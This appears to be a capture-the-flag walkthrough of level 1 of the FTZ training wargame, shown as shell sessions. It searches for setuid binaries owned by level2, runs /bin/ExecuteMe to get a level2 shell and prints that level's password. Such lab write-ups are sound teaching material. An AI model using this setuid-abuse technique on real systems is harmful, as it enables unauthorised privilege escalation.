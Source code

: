 # Level1

`[level1@ftz level1]$ ls -l   
total 12   
-rw-r--r--    1 root     root           47 Apr  4  2000 hint   
drwxr-xr-x    2 root     level1       4096 Dec  7  2003 public_html   
drwxrwxr-x    2 root     level1       4096 Jun  3 11:58 tmp   
[level1@ftz level1]$ cat hint   
Level2 권한에 setuid가 걸린 파일을 찾는다.`

`[level1@ftz level1]$ find / -user level2 -perm -4000 2>/dev/null
/bin/ExecuteMe
[level1@ftz level1]$ ls -l /bin/ExecuteMe
-rwsr-x---    1 level2   level1      12868 Aug 19  2014 /bin/ExecuteMe`

`[level1@ftz level1]$ /bin/ExecuteMe`

`[level2@ftz level2]$ bash`

`[level2@ftz level2]$ my-pass
Level2 Password is "hacker or cracker".`

